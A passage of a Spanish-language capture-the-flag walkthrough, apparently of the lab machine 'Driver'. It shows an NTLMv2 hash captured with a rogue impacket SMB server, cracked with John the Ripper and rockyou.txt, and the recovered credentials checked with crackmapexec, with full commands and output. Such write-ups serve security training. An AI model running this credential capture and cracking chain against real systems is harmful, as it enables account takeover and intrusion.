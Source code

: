 * Observa lo que pasa en el servidor **SMB** de tu máquina:
```bash
impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.106,49414)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:5a0d651031ca97e2d20e5abf5039dfcb:010
```

Excelente, tenemos un usuario y un **hash** con posible contraseña.

Este ataque se puede hacer con la herramienta **Responder**, pero es mejor usarla para casos de **Active Directory** y en esta máquina eso está de más.

<h2 id="Hash">Descifrando Hash y Probando Credenciales</h2>

Para descifrar el **hash**, vamos a copiarlo todo, guardarlo en un archivo y usaremos la herramienta **John The Ripper**, obvio por pasos:

* Copia y pega todo el **hash** en un archivo:
```bash
nano hash
tony::DRIVER:aaaaaaaaaaaaaaaa:5a0d651031ca97e2d20e5abf5039dfcb:010
```

* Usa el diccionario **rockyou.txt** junto a la herramienta **John The Ripper** para descifrar el **hash**:
```bash
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2023-05-22 23:18) 20.00g/s 634880p/s 634880c/s 634880C/s !!!!!!..225566
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Listo, tenemos las credenciales:
* User: *tony*
* Passwd: *liltony*

Vamos a probar si son correctas para el servidor **SMB** de la máquina víctima usando la herramienta **crackmapexec**:
```bash
crackmapexec smb 10.10.11.106 -u 'tony' -p 'liltony'
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [+] DRIVER\tony:liltony
```
